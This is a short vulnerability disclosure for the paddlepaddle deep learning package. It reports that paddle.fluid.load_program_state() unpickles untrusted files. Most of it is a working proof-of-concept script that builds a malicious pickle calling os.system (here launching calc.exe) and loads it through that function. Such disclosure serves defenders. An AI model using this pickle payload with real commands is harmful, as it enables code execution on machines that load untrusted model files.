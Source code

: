 # Description

`paddlepaddle` is an industrial platform with advanced technologies and rich features that cover core deep learning frameworks, basic model libraries, end-to-end development kits, tools & components as well as service platforms. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

`paddle.fluid.load_program_state()` function is used to load program state from local file. It should only unpickle files that are saved with `paddle.fluid.save()` function.

# Proof of Concept

# Installation
```bash
pip install paddlepaddle
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
import paddle

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('payload.pdparams', 'wb') as file:
    file.write(payload)

paddle.fluid.load_program_state('payload')
```
